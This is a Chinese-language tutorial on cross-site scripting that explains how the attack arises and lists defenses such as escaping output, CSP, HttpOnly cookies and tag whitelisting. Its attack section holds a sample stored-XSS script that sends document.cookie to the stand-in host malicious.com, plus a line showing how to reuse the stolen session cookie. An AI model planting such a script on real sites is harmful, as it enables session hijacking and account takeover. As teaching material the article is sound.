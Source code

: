 ### 1、起因  

在网页应用中，用户输入的内容（如评论、用户名、搜索框等）通常会被直接显示在页面上。如果网站没有对用户输入的内容进行 **严格的过滤或转义**，攻击者就可以在输入中插入恶意脚本代码。当其他用户浏览页面时，这些脚本会被浏览器当作正常代码执行，导致用户信息被盗或页面被篡改。

---



### 2、攻击  

假设你访问了一个论坛网站 `example-forum.com`，攻击者在评论区输入了以下内容：  
```html
<script>
  // 窃取用户的 Cookie 并发送到攻击者的服务器
  fetch('http://malicious.com/steal?cookie=' + document.cookie);
</script>
```  

如果论坛没有过滤这类脚本，这段代码会被保存到页面中。当其他用户打开这条评论时，脚本自动执行，将用户的登录 Cookie 发送到攻击者的服务器。

攻击者拿到 Cookie 后，攻击者可以在自己的浏览器中手动添加：
```js
document.cookie = "sessionid=abc123; Domain=example.com; Path=/";
```
这样，当攻击者访问 `example.com` 时，浏览器会携带该 Cookie，服务器会误以为攻击者是受害者，攻击者就能冒充用户登录账户，进行恶意操作（如发帖、转账等）。



---

### 3、防范  
防范 XSS 攻击的核心是 **不信任任何用户输入**，并确保浏览器不会将输入内容当作代码执行：  

==1.对用户输入进行过滤或转义==  
- **过滤**：移除用户输入中的敏感字符（如 `<`, `>`, `&`, `"`）。  
- **转义**：将特殊字符转换为 HTML 实体（例如 `<` 转成 `&lt;`，`>` 转成 `&gt;`），确保浏览器将其显示为普通文本而非代码。

==2.使用安全的输出方式==  
- 根据输出位置（HTML、JavaScript、URL、CSS）选择不同的转义规则。  
- 避免直接使用 `innerHTML`，优先使用 `textContent` 或安全 API。

==3.启用 Content Security Policy (CSP)==  
通过 HTTP 头部设置 CSP，限制页面只能加载指定来源的脚本、图片等资源。例如：  
```http
Content-Security-Policy: default-src 'self'
```  
这表示页面只能加载当前域名的资源，阻止外部恶意脚本执行。

==4.设置 Cookie 的 HttpOnly 属性==  
标记敏感 Cookie 为 `HttpOnly`，禁止 JavaScript 读取 Cookie（防止被盗）：  
```http
Set-Cookie: sessionid=123; HttpOnly; Secure
```

==5.避免拼接 HTML 字符串==  
使用现代前端框架（如 React、Vue、Angular），它们默认会自动转义用户输入，降低 XSS 风险。

==6.对富文本内容进行严格过滤==  
如果允许用户输入 HTML（如博客编辑器），使用白名单机制，只保留安全的标签和属性（如 `<b>`, `<img src>`，但移除 `onerror` 等事件属性）。

==7.定期进行安全测试==  
使用工具（如 XSS 扫描器、Burp Suite）或人工审查，检查网站是否存在 XSS 漏洞。

---



### 4、总结  
XSS 就像有人在你家墙上偷偷写了一段“魔法咒语”，每个看到这段咒语的人都会自动执行它。防范的关键是：  
1. **不让坏人写咒语**（过滤输入）；  
2. **即使写了咒语，也让它变成普通文字**（转义输出）；  
3. **限制咒语生效的条件**（CSP、HttpOnly）。

---



### 5、返攻